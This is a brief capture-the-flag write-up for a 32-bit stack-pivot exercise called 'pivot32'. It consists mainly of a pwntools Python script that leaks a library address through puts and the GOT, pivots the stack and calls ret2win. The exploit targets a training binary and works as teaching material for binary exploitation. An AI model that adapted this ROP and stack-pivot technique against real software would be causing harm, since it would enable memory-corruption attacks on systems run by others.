


the challenge want us to call ret2win

luckily, the challenge also provide us an easy rop chain 



with this, we can call puts from plt to print out foothold (a function in the lib) to calculate the lib base


with lib_base, we can call ret2win directly

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pivot32")
exelib = ELF("./libpivot32.so")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+172
c
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    r.recvuntil("The Old Gods kindly bestow upon you a place to pivot: 0x")
    data=r.recvline()
    data=data[:12]

    pivot_addr=int(data,16)
    buffer=0x2c*b"A"
    pop_eax=0x0804882c
    xchg_eax_esp=0x0804882e
    clear3=0x080484a6
    puts_plt=exe.plt["puts"]
    foothold_got=exe.got["foothold_function"]
    foothold_plt=exe.plt["foothold_function"]
    main=exe.sym["main"]

    payload=flat(
        foothold_plt,
        puts_plt,
        clear3,
        foothold_got,
        0,
        0,
        main,
    )

    r.recvuntil("> ")
    time.sleep(0.1)
    r.send(payload)

    payload=flat(
        buffer,
        pop_eax,
        pivot_addr,
        xchg_eax_esp,
    )

    r.recvuntil("> ")
    time.sleep(0.1)
    r.send(payload)

    r.recvuntil("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot\n")

    data=r.recvline()
    data=data[:4]

    lib_foot=u32(data.ljust(4,b"\x00"))

    print(hex(lib_foot))

    lib_base=lib_foot-exelib.sym["foothold_function"]
    win=lib_base+exelib.sym["ret2win"]

    payload=flat(
        0
    )

    r.recvuntil("> ")
    time.sleep(0.1)
    r.send(payload)

    payload=flat(
        buffer,
        win
    )

    r.recvuntil("> ")
    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```
